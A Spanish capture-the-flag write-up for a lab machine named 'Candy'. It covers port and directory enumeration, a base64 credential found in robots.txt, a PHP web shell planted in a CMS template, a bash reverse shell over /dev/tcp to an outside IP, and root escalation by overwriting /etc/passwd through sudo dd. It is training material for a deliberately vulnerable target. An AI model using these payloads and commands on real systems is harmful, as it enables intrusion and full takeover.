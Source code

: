 # 📄 Reporte Técnico - Máquina Vulnerable: **Candy**

**Nivel:** Fácil


![Inicio del entorno](Imágenes/2025-05-14_23-56.png)

---


### 🧩 Descripción y despliegue de la máquina

Se descargó la máquina vulnerable `candy.zip` y se descomprimió con:

```bash
unzip candy.zip
```

Luego se desplegó con:

```bash
sudo bash auto_deploy.sh candy.tar
```


![Despliegue](Imágenes/Capturas.png)

---

### 🔗 Verificación de conectividad

Se hizo un ping para confirmar conexión con la máquina:

```bash
ping -c1 172.17.0.3
```


![Ping a la IP](Imágenes/Capturas_1.png)

---

### 🔍 Escaneo de puertos

Se usó Nmap para buscar puertos abiertos:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.3 -oG allPorts.txt
```

Solo se detectó el puerto **80 (HTTP)**.


![Puertos detectados](Imágenes/Capturas_2.png)

Se escanearon versiones y scripts:

```bash
nmap -sC -sV -p80 172.17.0.3 -oN target.txt
```


![Versión de servicios](Imágenes/Capturas_3.png)

---

### 🌐 Análisis del sitio web

Al ingresar a `http://172.17.0.3:80` se visualiza una página con formularios de login y registro.


![Página principal](Imágenes/Capturas_4.png)

---

### 📁 Enumeración de directorios

Se utilizó `gobuster` para descubrir rutas ocultas:

```bash
gobuster dir -u http://172.17.0.3/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -add-slash -b 403,404 -x php,html,txt
```

Se encontraron muchos directorios interesantes como:

```
/images /media /templates /modules /plugins /includes /language
/README.txt /components /api /cache /index.php /robots.txt /tmp
/LICENSE.txt /layouts /administrator /configuration.php /htaccess.txt /cli
```


![Directorios descubiertos](Imágenes/Capturas_5.png)

---

### 👤 Descubrimiento de usuario

Dentro del panel de administración (`/administrator/index.php`), se encontró el usuario: `TLuisilloo`.


![Panel admin](Imágenes/Capturas_6.png)

---

### 🔐 Análisis del archivo robots.txt

En `http://172.17.0.3/robots.txt` se encontró una posible credencial: `admin:c2FubHVpczEyMzQ1`.

Se decodificó con:

```bash
echo c2FubHVpczEyMzQ1 | base64 -d
```

Resultado: **sanluis12345**


![robots.txt](Imágenes/Capturas_7.png)
![Decodificación base64](Imágenes/Capturas_8.png)

---

### ✅ Acceso como administrador

Con `admin : sanluis12345` se ingresó exitosamente en:

* [http://172.17.0.3/administrator/index.php](http://172.17.0.3/administrator/index.php)
* [http://172.17.0.3/index.php](http://172.17.0.3/index.php)


![Login exitoso 1](Imágenes/Capturas_9.png)
![Login exitoso 2](Imágenes/Capturas_10.png)

---

### 📂 Subida de web shell

Desde el panel: `System > Site Templates`, se puede modificar plantillas para subir código malicioso.


![Template editable](Imágenes/Capturas_11.png)

---

## 🔧 Método de Explotación 1: Web Shell PHP

En la línea 143 del archivo `index.php`, se insertó:

```php
<?php echo system($_GET['shadow']); ?>
```

Este código permite ejecutar comandos desde el navegador.

### Explicación:

* `$_GET['shadow']`: Toma el parámetro `shadow` de la URL.
* `system()`: Ejecuta ese comando.
* `echo`: Muestra el resultado.

### Ejemplos:

```http
http://172.17.0.3/index.php?shadow=ls
http://172.17.0.3/index.php?shadow=cat%20/etc/passwd
```


![Web shell cargada](Imágenes/Capturas_12.png)
![Comando exitoso](Imágenes/Capturas_13.png)

---

## 🌀 Método 2: Reverse Shell en PHP

Se vuelve a insertar:

```php
<?php echo system($_GET['shadow']); ?>
```


![Insertar reverse shell](Imágenes/Capturas_14.png)

Se accede a:

```
http://172.17.0.3/?shadow=bash+-c+'bash+-i+>%26+/dev/tcp/192.168.1.10/433+0>%261'
```

📌 Nota: Cambia la IP y el puerto por los tuyos.

Antes de ejecutarla, abre el puerto en escucha:

```bash
sudo nc -lvnp 433
```


![Reverse shell cargada](Imágenes/Capturas_15.png)
![Shell obtenida](Imágenes/Capturas_16.png)

---

## 🧗 Escalada de privilegios

Se buscaron archivos `.txt`:

```bash
find / -name "*.txt" 2>/dev/null
```

Se encontró:

```
/var/backups/hidden/otro_caramelo.txt
```


![Archivo encontrado](Imágenes/Capturas_18.png)

Al revisar su contenido:

```bash
cat /var/backups/hidden/otro_caramelo.txt
```

Se encontraron credenciales:

```php
$db_user = 'luisillo';
$db_pass = 'luisillosuperpassword';
```


![Credenciales](Imágenes/Capturas_17.png)

---

### 🧪 Sudo y escalada con `/bin/dd`

Accedimos con `luisillo` y se ejecutó:

```bash
sudo -l
```

Resultado:

```
(ALL) NOPASSWD: /bin/dd
```


![Permiso sudo](Imágenes/Capturas_18.png)

---

### 🔐 Modificando `/etc/passwd` para root shell

1. Copiar el archivo:

```bash
cat /etc/passwd > copia.txt
```

2. Eliminar las `x` (que indican autenticación):

```bash
sed 's/x//g' copia.txt > copia_sin_x.txt
```

3. Sobrescribir `/etc/passwd` con permisos root:

```bash
cat copia_sin_x.txt | sudo /bin/dd of=/etc/passwd
```

4. Ingresar como root:

```bash
su
```


![Escalada completada](Imágenes/Capturas_19.png)
